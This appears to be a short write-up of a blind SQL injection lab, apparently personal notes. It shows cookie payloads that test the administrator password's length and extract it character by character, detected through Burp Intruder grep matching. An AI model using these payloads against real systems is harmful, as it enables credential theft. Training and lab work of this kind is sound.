 ![](Pasted%20image%2020250222213056.png)

> Determine how many characters are in the password of the administrator user. To do this, change the SQL statement value to and in intruder **Settings tab**, at the "**Grep - Match**" section. Clear any existing entries in the list, and then add the value **`Welcome back`** to _**identify**_ true condition.

```js
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

> Next step is to test the character at each position to determine its value. This involves a much larger number of requests.

```js
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

![](Pasted%20image%2020250222211828.png)
